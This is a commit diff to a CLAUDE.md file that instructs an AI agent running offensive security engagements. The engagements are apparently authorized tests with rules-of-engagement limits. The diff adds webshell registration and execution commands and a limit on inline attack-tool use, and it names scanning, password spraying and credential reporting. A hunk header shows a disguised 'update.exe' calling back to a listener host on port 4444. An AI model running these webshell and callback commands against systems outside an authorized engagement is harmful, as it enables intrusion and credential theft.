

Before and after one commit to Saturate/PromptKiddie, a Markdown page: CLAUDE.md, 3 parts joined by grey strips. Shown at 91% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: strengthen delegation heuristic + add webshell/evidence docs
Delegation heuristic updated: 10 inline commands warns (hook-enforced),
20 blocks. Previous language was advisory ("should") and was ignored.

Added pk webshell and pkx to the CLI reference. Updated command
discipline section to reference webshell commands and the blocking hook.

Agent brief template now requires evidence registration as item 6.

```diff
--- a/CLAUDE.md
+++ b/CLAUDE.md
@@ -90,10 +90,11 @@ back after completing the task or after 200 tool calls, whichever comes first. I
 after 3 failed attempts at the same approach, report what you tried and ask for
 redirection."
 
-**Delegation heuristic.** If you have been running tools directly (curl, nmap, relay
-scripts, password spraying) for more than 15 minutes without delegating, stop and spawn
-an agent. Orchestrator context is expensive; filling it with raw tool output causes
-investigation loops.
+**Delegation heuristic (enforced by hook).** After 10 inline target-facing commands
+(pk exec, pkx, docker exec, webshell curl), the PreToolUse hook warns. At 20, it blocks.
+Do NOT run tools directly for extended periods. Spawn an agent after at most 10 inline
+commands. Orchestrator context is expensive; filling it with raw tool output causes
+investigation loops. The counter resets at session start.
 
 ## Agent brief template
 
@@ -109,6 +110,8 @@ When spawning a sub-agent, include these sections in the brief:
 4. **Constraints**: tool call budget (default 200), forbidden actions (do not brute-force,
    do not modify service X), and any RoE limits.
 5. **Report format**: what to report back (findings, credentials, flags, evidence paths).
+6. **Evidence requirement**: "Every confirmed finding MUST have at least one `pk evidence
+   add` linking proof. Zero evidence = failed engagement discipline."
 
 Do not include phase-advancement instructions; the supervisor handles that
 automatically.
@@ -184,7 +187,13 @@ pk agent finish <runId> --status <ok|failed> --summary "..."
 # Exec (run tool commands with auto-logging and output truncation)
 pk exec -- nmap -Pn -sT 10.0.0.1  # auto-logs, truncates output >4KB, stores full output
 pk exec --reason "checking for open web ports" -- nmap -p 80,443 10.0.0.1
+pkx nmap -Pn -sT 10.0.0.1         # shortcut for pk exec --
 pk search "flag"                   # grep stored exec outputs
+
+# Webshell sessions (auto-logged like pk exec)
+pk webshell register <url> [--name <name>] [--param cmd]
+pk webshell exec <name-or-url> <command>
+pk webshell list
 
 # Inbox
 pk msg send --body "<reply>"
@@ -258,8 +267,10 @@ pk shell exec mysession "C:\ProgramData\Microsoft\update.exe -H <lhost> -p 4444
 - **Intentional piping only.** Piping to filter large output is good (`grep open` on nmap
   results). Piping unrelated commands together is bad (`cat flag.txt | ls`). Each step in a
   pipe should serve the same objective.
-- **Attackbox tools** (nmap, ffuf, sqlmap, etc.): `pk exec -- <command>`. Auto-logs to
-  activity. Do not use raw `docker exec`.
+- **Attackbox tools** (nmap, ffuf, sqlmap, etc.): `pk exec -- <command>` (or `pkx <command>`).
+  Auto-logs to activity. Raw `docker exec` is **blocked by hook**.
+- **Webshell commands**: `pk webshell exec <name> <command>`. Auto-logs like pk exec.
+  Do not use raw `docker exec attackbox curl` for webshell interaction.
 - **Target interaction** via gleipnir sessions: `pk shell exec <session> <command>` for
   commands on the target, `pk upload`/`pk download` for file transfer, `pk tunnel` for
   SOCKS pivoting. These also auto-log to activity.
```
